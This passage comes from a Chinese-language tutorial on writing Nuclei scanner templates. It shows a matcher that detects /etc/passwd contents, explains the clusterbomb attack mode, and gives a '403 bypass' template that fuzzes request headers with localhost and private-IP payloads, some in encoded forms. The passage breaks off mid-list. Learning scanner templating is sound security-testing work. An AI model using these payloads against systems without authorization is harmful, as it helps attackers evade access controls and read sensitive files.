 ```
      - type: regex
        regex:
          - "root:.*:0:0:"
        part: body

      - type: status
        status:
          - 200
```
<a name="jsVjL"></a>
## 1.4 多种header组合测试
**关键点说明**<br />1、请求头定义变量名header_types，header_values<br />2、分别定义payload两段，名称为header_values，header_types<br />3、设定攻击类型为attack: clusterbomb<br />**Cluster bomb（集束炸弹模式）**<br />集束炸弹模式跟草叉模式不同的地方在于，集束炸弹模式会对payload组进行笛卡尔积，还是上面的例子，如果用集束炸弹模式进行攻击，则除baseline请求外，会有四次请求：

| **attack NO.** | **location A** | **location B** |
| --- | --- | --- |
| 1 | 1 | 3 |
| 2 | 1 | 4 |
| 3 | 2 | 3 |
| 4 | 2 | 4 |

 4、这种类型的检测，必须制定unsafe: true，不然检测系统在某些情况下可能会自动消除不正确、不安全的请求头信息<br />5、这里两个变量的payload同样可以基于文件加载，基于文件加载时，由于执行的“当前”位置是确定的的，所以这种情况建议用绝对路径<br />6、延伸的知识：4种攻击类型同Burp Suite Intruder的原理

**参考代码**
```
id: Labda_403Bypass_xheaders

info:
  name: Labda 403 bypass
  author: Labda
  description: Bypasses 403 Forbidden
  tags: bypass, web, 403, Forbidden

requests:
  - raw:
      - |+
        GET / HTTP/1.1
        Host: {{BaseURL}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
        {{header_types}}: {{header_values}}
    payloads:
      header_values:
        - localhost
        - localhost:80
        - localhost:443
        - "127.0.0.1"
        - "127.0.0.1:80"
        - "127.0.0.1:443"
        - "2130706433"
        - "0x7F000001"
        - "0177.0000.0000.0001"
        - "0"
        - "127.1"
        - "10.0.0.0"
        - "10.0.0.1"
        - "172.16.0.0"
        - "172.16.0.1"
        - "192.168.1.0"
```